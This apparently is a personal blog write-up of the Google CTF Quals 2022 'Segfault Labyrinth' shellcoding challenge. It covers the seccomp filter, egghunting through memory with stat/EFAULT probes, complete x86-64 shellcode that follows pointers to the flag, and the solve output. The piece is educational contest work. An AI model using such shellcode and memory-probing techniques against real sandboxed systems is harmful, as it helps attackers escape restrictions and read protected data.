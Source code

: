 ```yaml
---
layout: default
title: "labyrinth - Google CTF Quals 2022"
date: 2022-07-03
permalink: /labyrinth/
categories: ctf misc pwn shellcode
---
```


Segfault Labyrinth was a Misc shellcoding challenge from Google CTF Quals 2022. I spent several hours more than I should have on it due to a misunderstanding!
<!--more-->

# Segfault Labyrinth
### Or, 'wasting 4 hours because of forgetting the RDI register'


## Summary
The challenge sets up a 'labyrinth' - it repeatedly:
- Creates 16 buffers using `mmap` of size 0x1000
- One of the buffers will randomly be made RW, the others unread/writable

- The writable buffer will be filled with *another* 16 pointers
- On the final iteration, the flag will be placed into the writable buffer
The challenge then loads a seccomp filter:
```
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x0000000b  if (A != munmap) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x00000005  if (A != fstat) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000004  if (A != stat) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x06 0x00 0x00 0x00000000  return KIL
```
It copies a short shellcode prologue, before copying our input (more shellcode) into a buffer, then executes it, passing a pointer to the first buffer (the start of 'the labyrinth').
![prefix](https://imgur.com/pKfq1Q8.png)

## Attempt 1
It seems like all registers have been cleared - we have no context for where any code or memory is located. However, there are ways to scan through memory without crashing, often known as egghunting. The general approach is to
- Use a syscall which takes a pointer (`write`, `access`, `stat`) on an address
- Syscall's won't segfault, and will instead return `-EFAULT` (`0xfffffffffffffff2`)
- A return value of `-EFAULT` means that the page isn't mapped, so we increment the address by 0x1000 and try again
- If a mapped page is found, we can either conclude our search or iterate through the page itself, searching for the 'egg' (a short marker value)

In this case, as we would have no idea of the memory layout of the chunks, my strategy was to try and locate the stack. We would then be able to locate the address of the start of the buffer on the stack, and follow the pointers.

However, no matter what I tried, the offset to the pointer seemed to be inconsistent. I went back to the binary to try and statically discover the offset to the pointer, and at this point noticed something.

![rdilol](https://imgur.com/ZXUZFbe.png)
Due to my screen layout, the register display had been cut off - I missed the fact that **RDI was never cleared**, and contains the pointer to the start of the buffer.

![brain](https://imgur.com/XmSb49w.png)

## Attempt 2
So, the start of the labyrinth is in RDI. Now, all we need to do is follow the links, using egghunter-type syscalls to check the readability of a pointer.
```nasm
[bits 64]
lea rsp, [rdi + 160] ; give us stack space so we can call/ret
check_chunk:
mov r14d, [rdi] ; load the dword at the start of the buffer
cmp r14d, 0x7b465443 ; if it's equal to 'CTF{', we got it!
je flag
mov r15, rdi
loop:         ; loop over the 16 pointers
mov rdi, [r15]
call is_readable
cmp al, 1     ; if readable, jump to check_chunk, recursing
je check_chunk
add r15, 8    ; otherwise, add 8 and go to the next pointer
jmp loop

is_readable:
mov rax, 4    ; SYS_stat
lea rsi, [rdi+0x80] ; avoid clobbering pointers in case stat does end up writing to the chunk
syscall
cmp al, 0xf2 ; check if result was EFAULT
jne yes
mov al, 0
ret
yes:
mov al, 1
ret

flag:   ; rdi points to the flag, write it out!
mov rax, 1
mov rsi, rdi
mov rdi, 1
mov rdx, 100
syscall
```

We can assemble and upload our program, and get the flag:
```sh
> python3 solve.py
[+] Opening connection to segfault-labyrinth.2022.ctfcompetition.com on port 1337: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
== proof-of-work: disabled ==
Welcome to the Segfault Labyrinth
CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$
```
